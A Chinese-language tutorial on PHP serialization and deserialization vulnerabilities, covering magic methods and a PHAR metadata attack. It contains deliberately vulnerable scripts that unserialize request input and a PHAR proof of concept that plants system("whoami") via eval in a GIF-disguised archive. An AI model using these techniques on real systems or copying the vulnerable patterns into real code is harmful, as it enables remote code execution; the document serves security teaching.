## 简介
php反序列化基本上是围绕着`serialize()`，`unserialize()`两个函数展开的，还有**PHAR**协议用于解析phar文件，phar文件的meta-data字段存在反序列化漏洞，可以使用协议读取文件触发反序列化。那么什么是序列化呢？序列化就是将一个对象变成可以传输的字符串，而反序列化其实就是将序列化得到的字符串再转变成对象。
首先上例子：
我们先讲简单的json序列化/反序列化，json格式就是一种序列化，虽然序列化json和php的反序列化漏洞无直接的联系，但是在理解反序列化这个概念会有所帮助
```
json_encode()
json_decode()
```
```php
<?php
$book = array('book_1' => 'test_1','book_2' => 'test_2','book_3' => 'test_3', 'book_4' => 'test_4');
$json = json_encode($book);
echo $json;
?>
```
在这里我们有一个book数组，如果需要传输这个数组，我们可以利用json_encode()函数将这个数据序列化成一串字符串，以key-value的形式展示出来
```
'book_1' => 'test_1',
'book_2' => 'test_2',
'book_3' => 'test_3', 
'book_4' => 'test_4'
```


所以我们将数组序列化成json格式的字符串的目的就是为了方便传输，我们可以看见，这里json格式来保存数据主要是使用键值对格式来保存的。
json格式只是为了传输数据而出现的，那么我们讲反序列化漏洞的话，就需要将字符串反序列化成对象。

## 概念
在这里我写一个class，在这个class中存有一些变量，当这个class被实例化之后，在使用过程中，里面的一些变量发生了改变，当如果以后某些时候还会用到这个变量，如果我们让这个class一直不销毁，就会浪费系统资源。如果我们将这个对象序列化，将其保存成一个字符串，当你需要使用的时候，再将其反序列化为对象就可以了。
```php
<?php

class DemoClass{
	public $name = "test";
	public $sex = "man";
	public $age = "24";
}
$example = new DemoClass();
$example->name = "aaron";
$example->sex = "woman";
$example->age = 22;

echo serialize($example);
?>
```
在这里，我们首先创建了一个`DemoClass`，里面存了一些数据，然后我们实例化了一个对象，并将这个对象里的信息改变了，当我们还需要使用这个实例的话，就将序列化（serialize）后的字符串存起来，需要使用的时候再反序列化（unserialize）出来就可以了
我们可以看一下结果



这个时候，序列化对象出来的格式和json格式不一样

```json
O:9:"DemoClass":3:{s:4:"name";s:5:"aaron";s:3:"sex";s:5:"woman";s:3:"age";i:22;}
// O 表示 object，这里还有一个情况是A，A表示是Array表示数组
// O:9 这个9 表示对象名表示占9个字符
// O:9:"DemoClass":3 这个3 表示是对象里有三个变量
// {s:4:"name";s:5:"aaron";} s=> 表示String 类型格式，s:4 4=>表示变量名占4位(name)，s:5表示name的值(aaron)是String类型格式，且占5位
// i => 表示是int类型格式，后面直接跟数据
// d => 表示double类型格式
```
然后如果反序列化（unserialize）回来
```php
<?php

class DemoClass{
	public $name = "test";
	public $sex = "man";
	public $age = "24";
}
$example = new DemoClass();
$example->name = "aaron";
$example->sex = "woman";
$example->age = 21;

$val = serialize($example);
$x = unserialize($val);
echo $x->name;
?>
```


## 原理
php里的魔术方法，通常因为某些条件而触发，不需要手动调用，我理解的是钩子函数吧，也就是生命周期的概念。
### 魔术方法
```php
__construct() //当一个对象创建时被调用

__destruct() //当一个对象销毁时被调用

__toString() //当一个对象被当作一个字符串使用

__sleep() //在对象在被序列化之前运行

__wakeup //在对象被反序列化时被调用
```
理解这几个魔术函数，如果php接收我们反序列化的字符串，且在魔术方法中能够直接执行我们构造的payload，就会造成反序列化漏洞
看一个简单的例子：
```php
<?php
class A{
    var $test = "demo";
    function __destruct(){
            echo $this->test;
    }
}
$a = $_GET['test'];
$a_unser = unserialize($a);
?>
```
这里表示是我们传入test参数，然后在反序列化成对象，然后在其生命周期当这个反序列化生成的对象要被销毁的时候调用echo 方法，输出test参数
那么我们构造如下payload
```php
O:1:"A":1:{s:4:"test";s:11:"hello,world";}
```
test参数可控的情况下，就会输出hello,world



我们在来尝试不同的生命周期

#### __construtor
在这里，construct是处于创建对象的生命周期中，当创建对象的时候会调用该函数，这里要被利用的话，需要配合另一个Class，这里先用`__wakeup`在被反序列化时，new一个新的对象A，并传入参数，这里表示test参数可控的情况下，当test参数可控，并在反序列化后，将test参数传入A的新实例中，那么只要constructor中存在可执行代码或者执行命令的函数，那么造成影响
```php
<?php
class A{
    var $test = "demo";
    function __construct($test){
    	  echo "<br/>";
        echo $test;
    }
}
class B{
	public $test_1 = "";
	function __wakeup(){
		$obj = new A($this->test_1);
	}
}
$a = $_GET['test'];
echo $a;
$a_unser = unserialize($a);
new A("123");
?>
```
```php
O:1:"B":1:{s:6:"test_1";s:11:"hello,world";}
```

#### __destruct
在这里，destruct处于对象被销毁的生命周期，当实例化之后，当对该对象的操作完成之后，那么php的回收机制则会回收该对象，这里就会调用该钩子函数，这里表示test参数可控的情况下，并在反序列化后之后，再打印该值，那么只要destruct中存在可执行代码或者执行命令的函数，那么就会造成影响
```php
<?php
class A{
    var $test = "demo";
    function __destruct(){
    	  echo "<br/>";
        echo $this->test;
    }
}
$a = $_GET['test'];
echo $a;
$a_unser = unserialize($a);
?>
```
```php
O:1:"A":1:{s:4:"test";s:11:"hello,world";}
```

#### __toString
在这里，toString处于当需要将对象输出的生命周期，当反序列化之后，需要输出对象并将其值用作上下文中使用，那么将对调用该钩子函数，当$test参数可控的情况下，在反序列化之后形成对象时，如果需要输出该对象，那么只要toString方法中存在可执行代码或者命令的函数，那么就会造成影响
```php
<?php
class A{
    var $test = "demo";
    function __toString(){
    	echo "toString()<br/>";
    	return $this->test;
    }
}
$a = $_GET['test'];
echo $a;
echo "<br/>";
$a_unser = unserialize($a);
echo $a_unser;
?>
```
```php
O:1:"A":1:{s:4:"test";s:11:"hello,world";}
```

#### __sleep
在这里，sleep处于当需要序列化对象的生命周期，在序列化之前，存在该钩子，则会返回一个包含对象中所有应被序列化的变量名称的数组，当$test参数可控的情况下，在序列化之后形成字符串时，那么只要sleep方法中存在可执行代码或者命令的函数，那么就会造成影响
```php
<?php
class A{
	var $test = '';
    function __construct($test){
    	$this->test = $test;
    }
    function __sleep(){
    	echo "__sleep()<br>";
    	echo $this->test;
    	echo "<br>";
    	return array('test');
    }
}
class B{
	public $test_1 = "";
	function __wakeup(){
		$obj = new A($this->test_1);
		echo serialize($obj);
	}
}
$a = $_GET['test'];
echo $a,"<br>";
$a_unser = unserialize($a);
?>
```
```php
O:1:"B":1:{s:6:"test_1";s:11:"hello,world";}
```





#### __wakeup
在这里__wakeup 是字符串反序列化的时候，会调用该钩子函数，只要执行unserialize方法就会触发该方法，其实我们关注php反序列化漏洞特别需要关注的魔术方法应该是`__wakeup`，`destruct`，因为这两个方法只要在反序列化过程中一定会用到的，尤其是`__wakeup`
```php
<?php
class A{
	var $test = '';
    function __construct($test){
    	$this->test = $test;
    }
    function __wakeup(){
    	echo "__wakeup()<br>";
    	echo $this->test;
    }
}
$a = $_GET['test'];
echo $a,"<br>";
$a_unser = unserialize($a);
?>
```
```php
O:1:"A":1:{s:4:"test";s:11:"hello,world";}
```




### 例子
```php
<?php
class A{
	var $file = '';
    function __construct($file=''){
    	$this->file = $file;
    }
    function readfile() {
    	if (!empty($this->file) && stripos($this->file,'..')===FALSE && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
    		return @file_get_contents($this->file);
        }
        else{
        	echo "false";
        }
    }
}
$x = new A();
isset($_GET['test']) && $g = $_GET['test'];
if (!empty($g)) {
	echo $g,"<br>";
    $x = unserialize($g);
}
echo $x->readfile();
?>
```
在这里，当实例化之前，调用construt魔术方法，如果未给file传值，那么file默认为空，如果test参数为空，则不输出文件，那么要输出文件内容则需要置参数不为空，其需要将参数反序列化，最后再调用反序列化后对象的readfile函数，并在这个对象实例中必须得存在file值，所以在这里构造反序列化字符串，但是在readfile里也有限制，不能使用相对路径，也不能带绝对路径，只能访问当前目录的文件
```php
O:1:"A":1:{s:4:"file";s:5:"1.txt";}
```

### PHAR
```php
<?php 
	class AnyClass{ 
		function __destruct() { 
			var_dump($_this); 
			eval($this -> output); 
		} 
	} 
	file_get_contents($_GET["file"]);
```
生成phar文件的poc
```php
<?php
class AnyClass{
    function __destruct()
    {
        echo $this -> output;
    }
}
@unlink("phar.phar");
$phar = new Phar('phar.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new AnyClass();
$object -> output= 'system("whoami");';
$phar -> setMetadata($object);
$phar -> stopBuffering();
```





## 参考链接
[https://www.freebuf.com/articles/web/167721.html](https://www.freebuf.com/articles/web/167721.html)


